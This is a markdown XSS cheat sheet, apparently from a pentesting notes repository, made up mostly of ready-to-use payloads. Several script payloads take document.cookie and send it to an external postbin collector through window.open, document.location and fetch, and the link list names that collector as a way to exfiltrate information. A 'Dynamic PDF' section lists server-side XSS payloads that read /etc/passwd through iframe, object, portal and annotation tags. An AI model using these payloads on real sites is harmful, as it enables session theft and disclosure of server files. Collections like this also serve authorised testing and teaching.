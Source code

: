 # XSS Injection
> XSS attacks enable attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy.
> [source](https://en.wikipedia.org/wiki/Cross-site_scripting)

### Script
```html
<script>window.open('https://www.toptal.com/developers/postbin/123-123?' + document.cookie);</script>
```
```html
<script>document.location = 'https://www.toptal.com/developers/postbin/123-123?' + btoa(document.cookie);</script>
```
```html
<script>fetch('https://www.toptal.com/developers/postbin/123-123?' + btoa(document.cookie), { method: 'GET',})</script>
```
```html
<img src=x onerror=alert() />
```

### Meta
```html
<meta http-equiv="refresh" content="0;url=http://example.com">
```

### Object
```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### Useful Link
- [Toptal/postbin - Exfiltrate information](https://www.toptal.com/developers/postbin/)
- [Generate Tags](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [CSP Evalutor](https://csp-evaluator.withgoogle.com/)
- [XSS Payload List](https://github.com/payloadbox/xss-payload-list)

# Server Side XSS
> Server XSS occurs when untrusted user supplied data is included in an HTTP response generated by the server.
> In this case, the entire vulnerability is in server-side code, and the browser is simply rendering the response and executing any valid script embedded in it.
> [source](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)

### Dynamic PDF
```xml
<iframe src=file:///etc/passwd></iframe>
<img src="x" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///etc/passwd">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id="portal">
<svg-dummy></svg-dummy><iframe src='file:///etc/passwd' width='100%' height='1000px'></iframe><svg viewBox='0 0 240 80' height='1000' width='1000' xmlns='http://www.w3.org/2000/svg'><text x='0' y='0' class='Rrrrr' id='demo'>data</text></svg>
```
```xml
<annotation file="/etc/passwd" content="/etc/passwd" icon="graph" title="Attached File: /etc/passwd" pos-x="195" />
```
